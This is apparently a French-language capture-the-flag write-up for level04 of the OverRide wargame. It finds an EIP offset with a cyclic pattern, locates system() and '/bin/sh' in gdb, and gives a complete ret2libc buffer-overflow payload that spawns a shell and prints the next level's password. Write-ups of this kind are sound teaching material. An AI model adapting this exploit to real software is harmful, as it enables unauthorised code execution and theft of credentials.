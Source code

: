 # Override
Override 42 security level04

```
./level04
Give me some shellcode, k
test12
child is exiting...
```

On observe que le programme lit sur l'entrée standard, essayons de le faire segfalt.

```
# https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
# Taille 300
gdb ./level04
(gdb) set follow-fork-mode child # Since there's a fork we want to follow the child process and not the parent one.
(gdb) r <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"
Starting program: /home/users/level04/level04 <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"
[New process 3327]
Give me some shellcode, k

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 3327]
0x41326641 in ?? ()
```
On trouve donc que l'eip est à l'offset 156.
On ne trouve aucun accès au systeme donc comme precedemment nous allons proceder à une attaque de type ret2libc.

Adresse system:
```
gdb ./level04
(gdb) b * main
Breakpoint 1 at 0x80486c8
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486c8 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
Adresse /bin/sh
```
info proc map
find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
```
Adresse retour
```
disass main
0x08048825 <+349>:	ret
```

Il ne nous reste donc plus qu'à lancer notre attaque:
```
level04@OverRide:~$ (python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "\x25\x88\x04\x08" + "\xec\x97\xf8\xf7" + "\x0a"' ; cat ) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
